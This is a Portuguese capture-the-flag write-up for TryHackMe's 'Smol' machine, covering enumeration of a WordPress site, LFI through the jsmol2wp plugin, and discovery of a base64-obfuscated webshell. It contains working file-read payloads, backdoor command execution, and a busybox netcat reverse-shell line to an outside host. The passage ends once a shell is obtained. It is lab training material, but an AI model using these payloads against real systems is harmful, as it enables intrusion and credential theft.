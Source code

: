 # Room - SMOL - TryHackMe 
Autor: carlossb1\
Nível: Médio\
Tópico: Web / Linux


## Introdução

Informações do autor da máquina:

At the heart of Smol is a WordPress website, a common target due to its extensive plugin ecosystem. The machine showcases a publicly known vulnerable plugin, highlighting the risks of neglecting software updates and security patches. Enhancing the learning experience, Smol introduces a backdoored plugin, emphasizing the significance of meticulous code inspection before integrating third-party components.

Quick Tips: Do you know that on computers without GPU like the AttackBox, John The Ripper is faster than Hashcat?

Informações chave:
- O alvo é um site wordpress;
- Existem plugins vulneráveis, inclusive um com um backdoor já instalado;
- Pela dica do john vs hashcat, já sabemos que a máquina vai envolver quebrar hashes.

## Enumeração

Vamos rodar o nmap nessa fera :\

`nmap -sC -sV <ip> -o scan`

![250603_11h43m43s_screenshot](https://github.com/user-attachments/assets/abedcead-ae60-45e0-a3d8-6e50f6ed5f13)

Podemos ver que a requisição http foi redirecionada para o endereço http://www.smol.thm, então vamos adicionar esse endereço na nossa lista de hosts
(o ip da máquina foi alterado algumas vezes durante as screenshots pois eu precisei resolver ela aos poucos, tendo que respawnar entre as tentativas)

`sudo vi /etc/hosts`

![250603_11h48m31s_screenshot](https://github.com/user-attachments/assets/7eadad59-d0c8-418a-9c3c-8506801c6998)

Após essa etapa, não devemos mais ter problemas com a resolução do dns, e conseguiremos acessar a página web.


![250603_11h57m43s_screenshot](https://github.com/user-attachments/assets/1ffa3acc-b914-4a96-9a10-865e7d8377e2)

A página no primeiro momento não apresenta nada de anormal ou que possamos interagir diretamente.

### WPSCAN

O wpscan é uma ferramenta muito útil para enumeração de sites feitos com base em wordpress.

Não é necessário se cadastrar para utilizar a ferramenta, mas quando você realiza o cadastro, recebe uma chave para utilização da API deles, que te permite utiliza algumas funcionalidades extras. Entre essas, a identificação de vulnerabilidades e o código dos CVEs:

`wpscan --api-token <TOKEN> -url http://www.smol.thm` 

![250603_12h07m23s_screenshot](https://github.com/user-attachments/assets/48f29a3d-fd10-4826-851d-d56180ce0aef)

Identificamos 2 CVEs: 2018-20463 e 2018-20462
## Exploração

### CVE 2018-20462

Pesquisando pelo CVE, encontramos essa prova de conceito:

https://github.com/sullo/advisory-archives/blob/master/wordpress-jsmol2wp-CVE-2018-20463-CVE-2018-20462.txt

Podemos abusar dessa falha para ler arquivos do sistema com o seguinte payload:

`http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../wp-config.php`

Tendo acesso à configuração inicial do banco de dados do wordpress, conseguimos pegar as credenciais de um usuário

![250603_12h28m34s_screenshot](https://github.com/user-attachments/assets/6064b06e-f5d7-4dae-b127-396aab672b01)

Vamos tentar utilizá-la para logar.

![250603_12h29m12s_screenshot](https://github.com/user-attachments/assets/cb540757-2a27-44bb-ab55-403ae509c381)

Temos acesso ao dashboard de administração da página.

![250603_12h29m54s_screenshot](https://github.com/user-attachments/assets/07749b0f-b9a3-4445-8807-1de5907d3172)

Depois de rodar um pouco pelo dashboard, não encontrei muita coisa que pudesse ser feita além de uma parte que permitia realizar upload de imagens. Tentei bypassar o filtro por um tempo pra ver se conseguia fazer o upload de uma shell em php, mas depois de algumas tentativas decidi ver o que mais havia pelo site.

Em uma das páginas, havia um link de tarefas a fazer, em que era mencionado a revisão de um plugin para inspeção de backdoor.

Esse é o segundo plugin mencionado pelo autor do desafio.

![250603_12h39m20s_screenshot](https://github.com/user-attachments/assets/d4984b80-ac1e-4f78-ae0d-55c7151dca9a)

### Hello Dolly

Agora precisamos dar um jeito der ler o código do plugin.

Lembrando que temos LFI graças ao CVE 2018-20462, testei o payload para ler o código fonte do plugin jsmol:

`http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../wp-content/plugins/jsmol2wp/php/jsmol.php`

![250603_12h45m42s_screenshot](https://github.com/user-attachments/assets/21df055d-2dee-4170-b985-1e759f2396c0)


Tentando ler o o código do hello-dolly:

Seguindo a recomendação do próprio WordPress quanto à organização dos plugins:

![250603_13h08m36s_screenshot](https://github.com/user-attachments/assets/4f5342c2-22ea-4e54-915b-6b45cc92fbc9)


E o código do plugin no github:

![250603_13h22m07s_screenshot](https://github.com/user-attachments/assets/4c41aece-6437-4e2a-8340-cdcc73799697)

Tentei utilizar o seguinte payload para ler o código do plugin no server:

`http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../wp-content/plugins/hello-dolly/hello.php`

Depois de entrar num loophole enorme, encontrei essa thread de discussão dos desenvolvedores, que fala justamente sobre essa característica do plugin:

https://core.trac.wordpress.org/ticket/53323

![250603_13h30m22s_screenshot](https://github.com/user-attachments/assets/aff31b1b-511a-4a3e-b50b-99ecbe3fe8e4)

Resumindo a thread, nas versões antigas, o plugin não ficava dentro de uma pasta própria, indo contra as boas práticas indicadas pelos desenvolvedores. Foi feito um esforço para alterar essa condição nas versões mais novas, mas parece que no nosso alvo a versão ainda não está atualizada.

Então editamos nosso payload para acessar o código do plugin:

`http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../wp-content/plugins/hello.php`

![250603_13h34m03s_screenshot](https://github.com/user-attachments/assets/f4670307-9c72-486b-8d59-cafbef9c019a)

Achamos o backdoor dentro do código, um webshell codificado em base64:

![250603_13h35m18s_screenshot](https://github.com/user-attachments/assets/56f9ffc1-0748-4185-9d5e-ecce46e8d9f8)

Depois de decodificar o b64, os caracteres que recebem o comando ainda continuam obfuscados. 

Convertendo os dois caracteres hexadecimais para ascii, obtemos: [ ][x6d][x64] - > [ ][m][d]
Por aqui já dava pra chutar que o parâmetro seria "cmd". O 143 não é conversível de decimal para ASCII, depois de procurar um pouco, vi que convertendo de octal para ASCII, conseguimos identificar o último caractere, que de fato é o "c".

Vamos testar a execução de código:

`http://www.smol.thm/wp-admin.php/about.php?cmd=ls`

![250603_14h09m44s_screenshot](https://github.com/user-attachments/assets/b72ea9a0-1684-4367-8508-57084dedc416)

Conseguimos utilizar o backdoor com sucesso para execução de código remoto.

## Exfiltrando o banco de dados

Agora que temos RCE, vamos pegar uma shell na máquina:
(Eu tenho usado bastante o busybox para invocar o netcat, nessas rooms ele geralmente está se mostrando o mais consistente pra mim.)

no site: `http://www.smol.thm/wp-admin.php/about.php?cmd=busybox nc <ip> <porta> -e sh` 

na máquina: `nc -lvnp <porta>`

![250603_14h15m31s_screenshot](https://github.com/user-attachments/assets/d09a8e46-e28f-4070-bb29-c853e76ea494)






